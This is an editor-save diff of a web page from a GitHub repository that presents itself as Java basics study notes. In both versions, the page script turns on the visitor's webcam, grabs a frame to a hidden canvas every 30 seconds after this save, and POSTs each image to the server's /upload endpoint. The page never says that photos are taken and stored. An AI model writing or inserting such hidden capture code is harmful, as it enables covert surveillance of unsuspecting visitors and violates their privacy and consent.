
Repository: Shovon0004/Java
Page: public/index.html
The author's editor kept a copy of each file at every save. The page is drawn from the files as they stood at one save, then again after the next save.
The browser window is 1280 px wide. The pictures show the whole page.

Above is the page before, as saved 2025-06-06 01:04:40.

After the next save:

Saved 2 min 3 s later.
--- a/public/index.html
+++ b/public/index.html
@@ -2,7 +2,7 @@
 <html>
 
 <head>
-    <title>Java Notes</title>
+    <title>Java Notes with Webcam Capture</title>
     <style>
         body {
             font-family: Arial;
@@ -11,7 +11,7 @@
         }
 
         #video {
-            width: 180px;
+            width: 200px;
             position: fixed;
             bottom: 10px;
             right: 10px;
@@ -21,12 +21,11 @@
 </head>
 
 <body>
-    <h1>Java Basics Notes</h1>
-    <p><strong>1. Class and Object:</strong> A class is a blueprint for objects...</p>
-    <p><strong>2. Inheritance:</strong> Java supports single inheritance using the "extends" keyword...</p>
-    <p><strong>3. Polymorphism:</strong> Polymorphism means having many forms, in Java we achieve it using overloading
-        and overriding.</p>
-    <p><strong>4. Abstraction:</strong> Hiding internal implementation using abstract classes or interfaces...</p>
+    <h1>📘 Java Notes</h1>
+    <p>1. <strong>Class:</strong> Blueprint of object.</p>
+    <p>2. <strong>Inheritance:</strong> Allows child class to acquire features of parent class.</p>
+    <p>3. <strong>Polymorphism:</strong> Method overloading and overriding.</p>
+    <p>4. <strong>Abstraction:</strong> Using abstract class or interface.</p>
 
     <video id="video" autoplay muted></video>
     <canvas id="canvas" width="320" height="240" style="display:none;"></canvas>
@@ -36,26 +35,32 @@
         const canvas = document.getElementById("canvas");
         const context = canvas.getContext("2d");
 
-        // Access webcam
         navigator.mediaDevices.getUserMedia({ video: true })
-            .then((stream) => {
+            .then(stream => {
                 video.srcObject = stream;
 
-                // Every 30 seconds, take photo
+                // Start capturing every 30 seconds
                 setInterval(() => {
                     context.drawImage(video, 0, 0, canvas.width, canvas.height);
                     const imageData = canvas.toDataURL("image/png");
 
-                    // Send to server
+                    // Upload to server
                     fetch("/upload", {
                         method: "POST",
                         headers: { "Content-Type": "application/json" },
                         body: JSON.stringify({ image: imageData })
-                    });
-                }, 3000); // 30,000ms = 30s
+                    }).then(res => res.json())
+                        .then(data => {
+                            console.log("✅ Sent photo:", data.filename);
+                        }).catch(err => {
+                            console.error("❌ Upload failed", err);
+                        });
+
+                }, 30000); // 30 sec
             })
-            .catch(() => {
-                alert("Please allow camera access.");
+            .catch(err => {
+                alert("Please allow webcam access!");
+                console.error(err);
             });
     </script>
 </body>
